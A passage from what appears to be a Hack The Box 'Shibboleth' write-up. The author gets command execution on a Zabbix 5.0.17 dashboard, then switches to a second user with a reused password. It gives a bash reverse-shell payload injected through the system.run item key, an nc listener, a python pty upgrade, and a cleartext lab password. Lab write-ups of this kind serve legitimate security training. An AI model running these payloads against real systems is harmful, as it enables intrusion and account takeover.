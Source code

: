 We can go back to `monitor.shibboleth.htb` and log in as Administrator.


![image](https://user-images.githubusercontent.com/59029171/161680107-abf2c7d5-b3dd-4dc2-953a-f955394ca908.png)

The end of the dashboard page displays the version of Zabbix, i.e.,  Zabbix 5.0.17. © 2001–2021, Zabbix SIA. I tried to google if there were any documents or any pre available exploits for the version Zabbix is running on.

After a lot of digging, I couldn't find any pre available exploits for abusing Zabbix 5.0.17. Still, on reading the [documentation](https://www.zabbix.com/documentation/current/en/manual/config/items/itemtypes/zabbix_agent) of the Zabbix agent, the system data command mentioned that it was possible for command execution using the `system.run[command,<mode>]` function.

![image](https://user-images.githubusercontent.com/59029171/161682238-2d6c404e-b589-4aae-bbd4-031379d77361.png)

Let's try it out. First, set a listener on our machine.
```console
0xStarlight@kali$ sudo rlwrap nc -lnvp 8888
```

Navigate to the following --> Configurations > Host > Items > create item

We can inject our payload for a reverse shell into the *key value* and then test the value to execute the command.

```bash
system.run[/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.x.x/8888 0>&1",nowait]
```

![image](https://user-images.githubusercontent.com/59029171/161682689-f6932519-3397-414a-8e62-55bcf575b02f.png)

# <span style="color:lightblue">Shell as ipmi-svc</span>

After receiving a reverse shell from Zabbix, we can make it into a stable shell to work on it more efficiently.

```console
zabbix@shibboleth:/$ python3 -c "import pty;pty.spawn('/bin/bash')"
```

I identified another user on the machine, `ipmi-svc`. Since we already have a credential found, we can try to use that to elevate to that user.

```console
zabbix@shibboleth:/$ su ipmi-svc
password : ilovepumkinpie1

ipmi-svc@shibboleth:/$ whoami;id
ipmi-svc
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
```

## <span style="color:lightgreen">Enumeration</span>

The first thing I checked was Zabbix config file stored as `/etc/zabbix/`  to check if there would be any other user's credentials hardcoded into it, which we may use for privilege escalation.
